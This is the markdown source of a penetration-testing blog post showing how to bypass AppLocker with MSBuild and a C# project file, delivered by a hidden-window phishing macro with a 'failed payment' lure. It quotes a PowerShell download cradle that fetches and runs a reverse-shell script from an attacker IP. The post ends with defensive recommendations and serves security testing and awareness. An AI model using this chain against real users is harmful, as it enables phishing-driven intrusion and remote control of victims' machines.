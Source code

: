 ```yaml
---
layout: post
title: MSBuild AppLocker Bypass Phishing Payload
published: true
---
```

![msbuild]({{ site.url }}/images/msbuild-csproj.png){: .center-image }


### With regular external vulnerability scans and (hopefully) pentration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and so simulated phishing campaigns and user awareness training are extremely important. However, there can never be complete assurance against credential divulgence or execution of malicious code via crafted (or not so crafted) phishing attacks, and so it is critical that organisations implement a multi-layered "defence in depth" strategy. Application Whitelisting is an important component of such a strategy, and is an effective means of ensuring that only approved applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. Commonly, the default AppLocker rules (listed below) are applied.

![rules]({{ site.url }}/images/applocker-default-rules.png){: .center-image }

Since Powershell has gained recognition for being the attacker's language of choice, organisations are increasingly blocking it. However, blocking powershell.exe alone is not sufficient as there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

The post will document one such method, with (as Casey Smith puts it) the "misplaced trust binary" MSBuild.exe. In this scenario, the company has enabled AppLocker with Default Rules and has also blocked powershell.exe.

![rules]({{ site.url }}/images/applocker-rules.png){: .center-image }

However, assuming that MSBuild.exe is allowed, we can have it execute a ".csproj" (Visual Studio .NET C# Project file) and instantiate a Powershell runspace using the System.Management.Automation.dll assembly. The powashell.csproj file below by Casey Smith ([@SubTee](https://twitter.com/subtee)) builds upon Jared Atkinson's ([@jaredcatkinson](https://twitter.com/jaredcatkinson)) and Justin Warner's ([@sixdub](https://twitter.com/sixdub)) work.

<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>

This executes the second stage of our payload via a PowerShell 3.0+ download cradle:

`pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");`

shell.ps1:

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>

Good. Now we need a means of delivering the project file and executing MSBuild. The macro below will do just this.

<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>

The `WindowType` parameter of the Shell function has been set to `vbHide` in order to avoid calling attention to our activities. Now, in order to stand a chance of the macro being executed, we need to dress the document appropriately.

John Lambert ([@JohnLaTwC](https://twitter.com/johnlatwc)) regularly shares interesting phishing lures and payloads, if you need inspiration for your simulated phishing campaigns. The "Document created in newer/older Office version" lure is one I find especially convincing. John has also put together [this](https://t.co/OwH28ltngy) compendium of macro based lures, which is great for educating users about the different techniques attackers use.

FailedPayment.doc lure:

![lure]({{ site.url }}/images/phishing-lure.png){: .center-image }

Now that the "malicious" document has been created we can test it out. Once the user opens the document and enables macros, our powashell.csproj is downloaded for MSBuild to execute, which in turn downloads and executes the Powershell reverse shell one-liner. All completely invisible to the user.

![rules]({{ site.url }}/images/shell.png){: .center-image }


We can see that this payload is also an effective means of bypassing PowerShell Contrained Language mode. This was not a particularly stealthy attack as the .csproj is written to disk, and no attempt was made to obfuscate any part of the payload.

Hopefully, this example highlights the danger of "misplaced trust" binaries such as MSBuild. organisations should block their use unless explicitely required for certain users (e.g. developers). Organisations should also consider blocking macros for users who don't need this functionality, and consider implementing a custom whitelisting policy, mindful of the permissiveness of Default Rules. Oddvar Moe ([@Oddvarmoe](https://twitter.com/oddvarmoe)) maintains an excellent [collection](https://github.com/api0cradle/UltimateAppLockerByPassList) of AppLocker bypass techniques, which is a good list of the "misplaced trust" binaries that IT departments should consider blocking. In addition to powershell.exe, organisations should also consider blocking the following PowerShell binaries and assemblies.

<script src="https://gist.github.com/egre55/61b6cd2b23b605e6a017e81e5cb97f3e.js"></script>

Yet, even after blocking the above, there are multiple methods an attacker could use to instantiate a Powershell runspace. For example, an attacker could download a custom binary to one of the writable and executable folders within Windows that is whitelisted by AppLocker Default Rules. On my computer, these are:

<script src="https://gist.github.com/egre55/47186f7a22de177af4785e80fc2dcb41.js"></script>

This attacker/defender back and forth continues ad infinitum. Therefore it is important for organisations to formalise an ongoing cycle of testing, remediation and review, in order to achieve stronger system security. Ultimately, an "assume breach" mentality is paramount, but we have to make it as hard as possible for an attacker to gain that initial foothold.
